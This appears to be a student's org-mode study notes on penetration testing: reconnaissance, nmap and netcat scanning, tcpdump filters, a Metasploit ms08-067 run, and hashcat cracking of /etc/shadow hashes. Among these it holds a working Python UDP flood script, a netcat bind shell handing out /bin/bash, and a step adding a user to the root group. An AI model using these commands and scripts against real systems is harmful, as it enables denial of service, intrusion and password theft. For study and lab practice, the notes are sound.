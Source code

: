 #+HTML_HEAD: <link rel="stylesheet" type="text/css" href="css/main.css" />
* footpringint
** website footprinting
 - operating system used.
 - subdirectories and parameters
 - Filename, path, database field name, or query:You should analyze anything after the
   a  query that looks like a filename, path, database field name, or query carefully
   to check whether it offers opportunities for SQL injection
 - Scripting platform
 - Contact details and CMS details: The contact pages usually offer details such as names
   phone numbers, email addresses, and locations of admin or support people.

** view headers
 - Connection status and content-type
 - Accept-ranges
 - Last-Modified information
 - X-Powered-By information
 - Web server in use and its version

** examine cookies set by the server to determine the software
running and its behavior.

** Email footprinting
By using email tracking tools you can gather the following information about
the victim:

 - Geolocation
 - read duration
 - proxy detection
 - links : allows you to check whether the links sent to the recipient through email
   have been checked or not.
 - Operating System
 - Forward email : whether or not the email sent to you is forwarded to another person
   can be determined easily by using this tool.

* Kali linux prep
** install linux headers for kali

#+begin_src shell 
$ apt-cache search header | grep -i linux
#  look for the one ending in –kali-all-amd64
$ apt-get install linux-headers-4.4.0-kalli-all-amd64
#+end_src 

** install kali guest additions

#+begin_src shell 
$ cd /media/cdrom0
$ cp VBoxLinuxAdditions.run /root/Desktop
$ ./VBoxLinuxAdditions.run
#+end_src 

** use network managed mode

#+begin_src shell 
$ vim /etc/NetworkManager.conf
# change managed=false to managed=true
#+end_src 

** permit =Root= login for SSH

#+begin_src shell 
$ vim /etc/ssh/sshd_config
#  change line PermitRootLogin without-password
#  PermitRootLogin yes
#+end_src

** set ssh to start at every bood
#+begin_src shell
$ update-rc.d -f ssh enable 2 3 4 5
#+end_src 

* google search operators
|            |                                                                                                |
|------------+------------------------------------------------------------------------------------------------|
| Operator   | Description intitle Looks for the search terms in the title                                    |
| allintitle | Looks for the search terms only in the title and nowhere else in the document                  |
| inurl      | Looks through the URL (the address) for the search terms                                       |
| allinurl   | Similar to allintitle     looks only in the URL for the search terms                           |
| filetype   | You provide the filetype and search terms. All results have that filetype.                     |
| allintext  | The search will not look at the URL and just in the text.                                      |
| site       | Narrow your search to a particular site. You have to provide the site as well as search terms. |
| link       | Searches for links to pages                                                                    |
| inanchor   | This search will look in anchor tags only                                                      |
| numrange   | Searches for a number                                                                          |
| daterange  | Results will be within a range of dates            as specified                                |
| author     | Searches Google Groups for a particular author. This only works in Google Groups.              |
| group      | Looks for a group name. This only works in Google Groups.                                      |
| insubject  | Searches subject lines in posts. This only works in Google Groups.                             |
| msgid      | Searches within a group for a message ID.                                                      |

http://www.googleguide.com
* whois & DNS
** query
#+begin_src shell
$ whois apress.com
$ whois -h whois.apnic.net <host>
# Looking up all the whois records that are maintained by the
# folks from Yahoo!. The following command shows how you do this:
$ whois –i mnt-by YAHOO-MNT
# filter ip addresses
$ whois –i mnt-by YAHOO-MNT | grep inetnum
$ whois –i mnt-by YAHOO-MNT | grep inetnum | awk –F\: '{ print $2 }'
#+end_src 

** whois query query handler

| whois.nic.ir    |
| whois.apnic.net |
| whois.arin.net  |

** MX record

Every domain will have at least one MX record. Knowing the hostname from the MX
record will tell you which system you need to interact with if you want to
perform penetration testing against the organization's receiving mail server
using the simple mail transfer protocol (SMTP) .

#+begin_src shell
# MX records
$ dig Mx apress.com
#using nslookup
$ nslookup
> set type=mx
> apress.com
#+end_src

** reverse DNS lookup
#+begin_src shell 
$ dig -x [IP address]
#+end_src 

* port scan 

#+begin_src shell 
# -p- scann all 65536 ports
$ sudo nmap -sS -p- 172.30.42.1
# udp port scan
$ sudo namp -sU
# operating system scan
$ sudo nmap -sS -O 172.30.42.1
# scan one port 
$ sudo nmap -sV -p 22,53 <ip>
# TCP full connection scan
$ nmap -sT -vvv -p 80 192.168.195.0/24
# SYN scan
$ nmap -sS -vvv -p 80 192.168.195.0/24
# ACK scan
$ nmap -sA -vvv -p80 192.168.195.0/24
# UDP scan
$ nmap -sU -vvv -p161 192.168.195.0/24
# combined UDP and TCP scan
$ nmap -sS -sU -vvv -p U:161,139 T:8080,21 192.168.195.0/24
# service detection
$ nmap -sS -vvv -Pn -sV<targetIP>
#+end_src 

** scanning default gateways
#+begin_src shell
for i in `seq 1 255`; do ping -c 1 192.168.$1.1 | tr \\n ' ' | awk '/1
received/ {print $2}'; done
#+end_src

* banner grabbing
use telnet for TCP and nc for UPD connections.

#+begin_src shell 
$ telnet <host> <port>
$ nc -u <host> <port>
#+end_src

* host discovery with =arping=
arping uses ARP requests and replies instead of ICMP packets.
#+begin_src shell 
$ arping [ip address]
# I've used the MAC address, but the IP address could also be used.
$ arping -v -c3 00:10:7b:66:f7:62
#+end_src 

* netcat
** port scan using =netcat= 

 #+begin_src shell 
 $ netcat -z -v domain.com 1-1000
 #ou can then use the -n flag to specify that you do not need to resolve the IP address using DNS:
 $ netcat -z -n -v 111.111.111.111 1-1000
 $ netcat -z -n -v 111.111.111.111 1-1000 2>&1 | grep succeeded
 # to randomized port scanning use -r switch
 $ nc –v –r –w 1 192.168.0.10 –z 1-1000
 # scanning a range of devices
 $ for i in {10..12}; do nc –vv –n –w 1 192.168.0.$i 21-25 –z; done
 #+end_src

** communicate through =netcat=

 On one machine, you can tell netcat to listen to a specific port for
 connections. We can do this by providing the -l parameter and choosing a port:

 #+begin_src shell 
 netcat -l 4444
 #+end_src

 This will tell netcat to listen for TCP connections on port 4444

 On a second server, we can connect to the first machine on the port number we
 choose. We do this the same way we've been establishing connections previously:

 #+begin_src shell 
 netcat domain.com 4444
 #+end_src 

 It will look as if nothing has happened. However, you can now send messages on
 either side of the connection and they will be seen on either end.
** =netcat= chat interface

 #+begin_src shell 
 $ nc -l -p 4444         # host ip 192.168.1.102
 $ nc 192.168.1.102 4444
 #+end_src 

** transfering data with =netcat=

 #+begin_src shell 
 # server +++ -w 30 wait for 30 seconds 
 $ nc –v –w 30 –p 31337 –l < secret.txt
 # client
 $ nc –v –w 2 192.168.0.10 31337 > secret.txt
 #+end_src 

** banner grabbing

 #+begin_src shell 
 $ nc 192.168.1.1 80
 #+end_src 

** Linux remote shell 

 to prepare the listener we will type the following command into the command
 line:

 #+begin_src shell 
 $ sudo nc –lp 31337 –e /bin/bash
 #Connecting to the target
 $ nc 192.168.0.11 31337
 # Adding a local user and placing into the root group
 $ useradd –g root bob
 #+end_src

** send receive syslog
#+begin_src shell
# How to send log message to remote server?
$ nc -w0 -u 192.168.1.1 514 <<< "logging from remote"
# listen for messages
$ nc -l -u 512
#+end_src 

* sample python flood scriptf
  
#+begin_src python
import socket
import random

sock=socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
bytes=random._urandom(1024)
ip=raw_input('Target IP:')
port=input('Port:')
sent=0

while 1:
	sock.sendto(bytes,(ip,port))
	print "Sent %s amount of packets to %s at port %s: " % (sent,ip, port)
	sent = sent + 1
#+end_src 

* Cracking Linux Password Hashes with Hashcat 
  
** Getting Hashcat 2.00

Hashcat updated to 3.00 and it won't run in a virtual machine anymore. The simplest solution is to use the old version.
In a Terminal window, execute these commands:
#+begin_src shell
cd
mkdir hash
cd hash
wget https://hashcat.net/files_legacy/hashcat-2.00.7z
7z e hashcat-2.00.7z
./hashcat-cli32.bin -V
#+end_src 

#+begin_src shell
# get the hash for a username
$ cat /etc/shadow

# Finding the salt value
# The $6$ value indicates a type 6 password hash (SHA-512).
# The characters after $6$, up to the next $,  are the SALT.
$ cat /etc/show
root:$6$QYVo1xui$JS7zZtJ857Ti5nKYjTAcVUKqe.87yZvUXgehw2irI5k.0NzhI8PLkga8pz3uR7b8V.lF9qpxZtACqIBNKM.yB0:17235:0:99999:7:::

# Hash algorithm?
# the hash algorithm is defined in the file /etc/login.defs.
$ grep -A 18 ENCRYPT_METHOD /etc/login.defs

# Making a Hash File
# add the hashed password to a file
# and remove the last part for the above hash value delete everything after the yB0
# and the username 

# make a wordlist
$ curl http://www.scovetta.com/download/500_passwords.txt > 500_passwords.txt
head 500_passwords.txt

# Cracking the Hash
$ ./hashcat-cli32.bin -m 1800 -a 0 -o found1.txt --remove crack1.hash 500_passwords.txt
$ cat found1.txt

# Unix type 6 password hashes (-m 1800)
# Using a dictionary attack (-a 0)
# Putting output in the file found1.txt
# Removing each hash as it is found
# Getting hashes from crack1.hash
# Using the dictionary 500_passwords.txt
#+end_src 

https://samsclass.info/123/proj10/p12-hashcat.htm

* metasploit
** init
   
#+begin_src shell 
$ service postgresql start
$ service metasploit start
$ msfconsole
msf > search ms08-067
msf > info exploit/windows/smb/ms08_067_netapi
msf > use windows/smb/ms08_067_netapi
msf > show options
# setting RHOST
msf > set RHOST 192.168.20.10
msf > exploit
#+end_src

* network
** netstat
#+begin_src shell

# routing table
$ netstat -rn
#+end_src

** lsof

#+begin_src shell
# internet connections
# unlike netstat lsof will not report connections that do not have open files.
$ lsof -i

# open files by process name
$ lsof -cemacs24

#open files by pid
$ lsof -p `pidof emacs24`

# specify and address (lsof)
# only files related to the address will be showed.
$ lsof -i@sloan.lander.edu


#+end_src

** ARP
If some machines on your network are reachable but others aren't, or
connectivity comes and goes, ARP problems may be the cause.

#+begin_src shell
# show arp cache table
$ arp -a
#+end_src

** traceroute
#+begin_src shell
# use -n to disable name resolution
$ traceroute -n 

#+end_src

** iperf

#+begin_src shell
# starting server
$ iperf -s -p3000

#client
$ iperf -c205.153.60.236 -p3000
#+end_src

** tcpdump
#+begin_src shell
# capture 100 packets and terminate
$ tcpdump -c100

# dump traffic of specific interface
$ tcpdump -i eth0

# disable name resolution
$ tcpdump -n

#address filtering
#This command captures all traffic to and from the host with the IP address 205.153.63.30.
$ tcpdump host 205.153.63.30

# Here is an example that uses the Ethernet address of a computer to select traffic
$ tcpdump ether host 0:10:5a:e3:37:c

# a filter that collects traffic sent to the host at 205.153.63.30 but not from i
$ tcpdump dst 205.153.63.30

# capture to packets coming from or going to the 205.153.60.0 network
$ tcpdump net 205.153.60

#The following command does the same thing:
$ tcpdump net 205.153.60.0 mask 255.255.255.0

#restricts the traffic captured to IP traffic
# IP traffic will include TCP traffic, UDP traffic, and so on
$ tcpdump ip

#To capture just TCP traffic, you would use:
# Recognized keywords include ip, igmp, tcp, udp, and icmp.
$ tcpdump tcp


#There are many transport-level services that do not have recognized keywords. In this case, you can
#use the keywords proto or ip proto followed by either the name of the protocol found in the
#/etc/protocols file or the corresponding protocol number. For example, either of the following will
#look for OSPF packets:
$ tcpdump ip proto ospf

#For higher-level services, services built on top of the underlying protocols, you must use the keyword
#port.
#the keyword domain is resolved by looking in /etc/services.
$ tcpdump port domain
$ tcpdump port 53

#This will capture DNS name lookups using UDP but not DNS zone transfers using TCP.
$ tcpdump udp port domain

#This command collects packets longer than 200 bytes.
$ tcpdump greater 200

# proto[expr:size] is the general syntax.
# proto indicates which header to look into -ip;tcp & ...
# expr gives an offset into the header indexed from 0


# looks into the IP header at the tenth byte, the protocol field, for a value of 6.
$ tcpdump "ip[9] = 6"     #the same as $tcpdump tcp

#This will match multicast and broadcast packets.
$ tcpdump 'ether[0] & 1 != 0'

#This filter skips the first 13 bytes in the TCP header, extracting the flag byte. The mask 0x03 selects
#the first and second bits, which are the FIN and SYN bits.
$ tcpdump "tcp[13] & 0x03 != 0"

# compound filters
$ tcpdump host 205.153.63.30 and ip
#all traffic to the host except IP traffic
$ tcpdump host 205.153.63.30 and not ip

#captures all UDP or ARP traffic to or from lxn1.
$ tcpdump "host lnx1 and (udp or arp)"

#suppose you are interested in capturing traffic on the host lnx1, you are logged onto the
#host bsd1, and you are using telnet to connect from bsd1 to lnx1. To capture all the traffic at lnx1,
#excluding the Telnet traffic between bsd1 and lnx1, the following command will probably work
#adequately in most cases:
lnx1# tcpdump -n "not (tcp port telnet and host lnx1 and host bsd1)"

#+end_src

* smurf attack

In a Smurf Attack, ICMP ECHO_REQUEST packets are sent to the broadcast address
of a network. Depending on how hosts are configured on the network, some may
attempt to reply to the ECHO_REQUEST.

* network troubleshooting

If some machines on your network are reachable but others aren't, or connectivity comes and goes,
ARP problems may be the cause.


* useful resources
http://ftp.ntua.gr/mirror/technotronic/
/media/moh/59920B8A5B5D077A/mybase/reilly/(O'Reilly System Administration) Joseph D Sloan-Network Troubleshooting Tools-O'Reilly Media (2001).pdf
